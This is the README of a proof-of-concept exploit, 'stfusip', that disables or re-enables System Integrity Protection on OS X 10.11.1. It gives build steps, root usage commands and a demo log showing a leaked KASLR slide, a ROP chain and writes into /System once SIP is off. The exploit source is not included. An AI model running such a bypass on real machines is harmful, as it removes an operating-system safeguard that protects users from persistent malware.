 # stfusip

## credits & thanks

- [jndok](https://twitter.com/jndok) – a.k.a. myself, for code and exploit.
- [qwertyoruiop](https://twitter.com/qwertyoruiop) – for bug and related help! go follow him on Twitter :)

## compile
Simply do `make`, inside `stfusip` folder. If you encounter linking problems, be sure to check that you have _capstone_ installed on your system. There is a flag inside `Makefile` to specify _capstone_'s `include` directory, be sure to edit it if _capstone_ is located elsewhere on your system!

If you don't have _capstone_ installed, do:
```
brew install capstone
```
and you should be set.

## usage
So, `stfusip` is a simple poc for disabling/enabling SIP, a.k.a. _System Integrity Protection_, a.k.a. _rootless_ on OSX 10.11.1. Bug could theoretically still work on 10.11.2, but I am really not sure.

Super easy to use, **needs to be run as root!**:

```
sudo ./stfusip disable /* this disables SIP */
sudo ./stfusip enable  /* this enables SIP */
```

Here's a demo output:

```
jndoks-Mac-Pro:ta_titto_sip jndok$ sudo su
sh-3.2# whoami
root
sh-3.2# touch /System/yolo
touch: /System/yolo: Operation not permitted
sh-3.2# ./stfusip disable
[+] kaslr slide is: 0x0000000c600000
[+] built ROP chain @ 0xbff56c90 (mapped @ 0x261)!
[+] trigger set: 0x18 : 0xffffff800c8c41bf

[-] System Integrity Protection (SIP) has been disabled.
sh-3.2# touch /System/yolo
sh-3.2# ls -ls /System/
total 0
0 drwxr-xr-x  74 root  wheel  2516 Dec  7 09:43 Library
0 -rw-r--r--   1 root  wheel     0 Dec  7 15:46 yolo
sh-3.2# rm -rf /System/yolo
sh-3.2# ls -ls /System/
total 0
0 drwxr-xr-x  74 root  wheel  2516 Dec  7 09:43 Library
sh-3.2# ./stfusip enable
[+] kaslr slide is: 0x0000000c600000
[+] built ROP chain @ 0xbfff6c90 (mapped @ 0x261)!
[+] trigger set: 0x18 : 0xffffff800c8c41bf

touch: /System/test: Operation not permitted
[+] System Integrity Protection (SIP) has been enabled.
sh-3.2# touch /System/yolo
touch: /System/yolo: Operation not permitted
sh-3.2# exit
```
